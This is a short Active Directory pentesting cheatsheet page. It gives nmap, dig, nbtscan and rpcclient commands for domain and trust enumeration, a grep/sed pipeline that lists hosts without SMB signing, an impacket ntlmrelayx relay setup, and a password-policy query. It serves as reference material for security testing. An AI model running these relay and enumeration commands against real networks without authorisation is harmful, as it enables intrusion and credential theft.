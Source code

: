 ```yaml
---
layout: post
title: Pentesting Active Directory   
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2021-12-10
permalink: /:categories/:title/
---
```


<!-- vscode-markdown-toc -->
* [ENUM: DOMAIN AND IP PLAN](#ENUM:DOMAINANDIPPLAN)
* [RELAY/POISON](#RELAYPOISON)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='ENUM:DOMAINANDIPPLAN'></a>ENUM: DOMAIN AND IP PLAN

```sh
# OBJECTIVE 1: Identify the DHCP server 
nmap --script broadcast-dhcp-discover
sudo tcpdump -ni eth0 udp port 67 and port 68

dig -t SRV _gc._tcp.contoso.com
dig -t SRV _ldap._tcp.contoso.com
dig -t SRV _kerberos._tcp.contoso.com
dig -t SRV _kpasswd._tcp.contoso.com

nmap --script dns-srv-enum --script-args "dns-srv-enum.domain='contoso.com'"

nbtscan -r 10.0.0.0/24

# OBJECTIVE 1: Enum domains and trusts with authenticated user - DC IP address 
rpcclient -U "johndoe" 10.1.1.1
rpcclient> enumdomains
rpcclient> enumtrusts
# Copy the output to trusts.txt

# OBJECTIVE 2: GET THE IP SUBNETTING / IP PLAN
# 2A DNS resolutions
cut -f1 -d" " trusts.txt > trusts_clean.txt                                                        │
for i in `cat trusts_clean.txt`; do ping -a $i; done                                               │

```
## <a name='RELAYPOISON'></a>RELAY/POISON

## <a name='RELAYPOISON'></a>SMBv2 SIGNING NOT REQUIRED
```sh
# STEP 1: find smb not signed
nmap -p 445 --script smb2-security-mode 10.0.0.0/24 -o output.txt

# STEP 2: set up impacket/ntlmrelayx
grep -B 9 "not required" output.txt |sed -E '/.*\((.*\..*\..*\..*)\)$/!d' |sed -E 's/.*\((.*\..*\..*\..*)\)$/\1/' > targets.txt
python3 ntlmrelayx.py -tf targets.txt -smb2support

```

## <a name='RELAYPOISON'></a>CRACKING HASHES
```sh
# Get the domain pasword policy
rpcclient -U "johndoe" 10.1.1.1
rpcclient> getdompwinfo
```